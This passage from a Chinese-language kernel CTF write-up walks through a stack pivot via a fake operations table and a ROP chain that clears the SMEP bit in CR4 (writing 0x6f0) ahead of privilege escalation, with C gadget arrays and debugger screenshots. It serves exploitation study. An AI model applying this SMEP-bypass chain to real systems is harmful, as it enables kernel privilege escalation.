 那么rsp就来到了我们的rax， 即fake_ops中，在这里在进行一次栈迁移， 

这里选择了一个最短的rop放在fake_ops，

![image-20220213230532147](https://s2.loli.net/2022/02/13/vPK9pV4jwNseMAE.png)

```c
    // fake_ops
    for (int i=0; i<0x34; i++){
        fake_ops[i] = 0xffffffff81110c15; // ret;
    }

    fake_ops[0] = 0xffffffff8100202b;// pop rbp; ret;
    fake_ops[1] = rop;
    fake_ops[2] = 0xffffffff81002e44; // leave; ret;

    // ops->write 
    fake_ops[7] = 0xffffffff8181bfc5; // mov rax, rsp; dec ebx; ret;
```

调试可以看到， 成功， 注意栈内数据两次变化。

![image-20220213230850063](https://s2.loli.net/2022/02/13/jKknC3T8XMbwd2E.png)

![image-20220213230935507](https://s2.loli.net/2022/02/13/jbMqSplKvNHQIAU.png)

于是我们可以写rop了。

### kernel rop

这一部分如果全内核态rop提权，然后返回用户态的话其实和之前的kernel rop的文章一致。 

但是这个题目还有smep保护，这个保护不允许内核态执行用户态的代码。可以使用完全在内核态的rop来绕过。但是这个保护的开启表示在 cr4寄存器的第20位， 我们可以直接修改cr4寄存器关闭这个保护。然后就和之前的kernel rop两个手段都ok了。

我们先看下开启和不开启smep的两种cr4 

![image-20220213233246365](https://s2.loli.net/2022/02/13/zb7KFJ1PfdZYQar.png)

![image-20220213233253285](https://s2.loli.net/2022/02/13/FtlJ42b6vVCndo9.png)

其实就改为0x6f0即可。

![image-20220213233430308](https://s2.loli.net/2022/02/13/HSKflcqMEF6p3mz.png)

修改成功，后续利用就和kernel rop一样了。

![image-20220213233945772](https://s2.loli.net/2022/02/13/mGVFw4CIahLNKnx.png)

```c
    // rop 
    int i = 0;
    rop[i++] = 0; 
    rop[i++] = 0xffffffff810d238d; // pop rdi; ret;
    rop[i++] = 0x6f0;
    rop[i++] = 0xffffffff81004d80; // mov cr4, rdi; pop rbp; ret;
    rop[i++] = 0;

```
